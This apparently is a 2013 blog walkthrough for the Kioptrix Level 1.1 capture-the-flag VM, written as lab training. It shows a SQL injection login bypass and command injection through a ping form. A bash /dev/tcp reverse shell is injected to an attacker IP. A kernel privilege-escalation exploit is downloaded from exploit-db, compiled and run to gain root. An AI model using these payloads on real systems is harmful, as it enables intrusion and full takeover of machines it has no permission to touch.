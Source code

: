 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.1 Walkthrough"
date:   2013-12-20 14:00:10
author: Arr0way
description: 'Kioptrix Level 1.1 Walkthrough, CTF solution for Kioptrix Level 1.1'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 3.9p1 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 631</code></p></pc>
           </td>
           <td>
              <pc><p>CUPS</p></pc>
           </td>
           <td>
               <pc><p>CUPS 1.1</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 946</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>RPC</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 3306</code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL (unauthorized)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

The web form <code>/index.php</code> was vulnerable to [SQL injection](/penetration-testing/web-app/sql-injection/), entering the username <code>admin</code> and the password <code>' or '1'=' </code> successfully bypassed auth.  


![SQL Injection Auth Bypass](/img/blog/kioptrix/sql-injection-1-1.png)


<div class="note info">
  <h5>SQL Injection - Why does ' or '1'='1 work ?</h5>
  <p>

  The web application is expecting the SQL query:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password='blah'";</code>

  Entering the above <b>injects</b> the statement after the <code>password='blah'</code> and before the closing <code>";</code>, the entire sql injection query looks like:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password=' or '1'='1";"</code>

  <code>1 = 1</code> will always be <code>1</code>, thus the statement will return true, allowing an attacker to authenticate as admin. The above injection statement correctly closes the sql syntax, however it is possible to comment out the rest of the sql statement using: <code> -- -</code>

  </p>
</div>

![Command Injection](/img/blog/kioptrix/command-injection.png)

The above authentication bypass exposed a web form vulnerable to <b>command injection</b>, the form filtering only checks for the presence of the ping command with no filtering to prevent an attacker tacking a comment on the end using <code>; insert-command-here</code>.

## Non privileged shell

A non privileged reverse shell was obtained using:

{% highlight bash %}

ping google.com; bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.157] 32770
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
{% endhighlight %}

## Local privilege Escalation


{% highlight bash %}
bash-3.00$ uname -ar
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9545 --no-check-certificate
--02:27:58--  https://www.exploit-db.com/download/9545
           => `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]

    0K .........                                                30.10 MB/s

02:27:58 (30.10 MB/s) - `9545' saved [9785]

bash-3.00$ mv 9545 sock_sendpage.c                             
bash-3.00$ gcc -o sock_sendpage sock_sendpage.c
bash-3.00$ ./sock_sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
{% endhighlight %}

Thanks for the VM :)
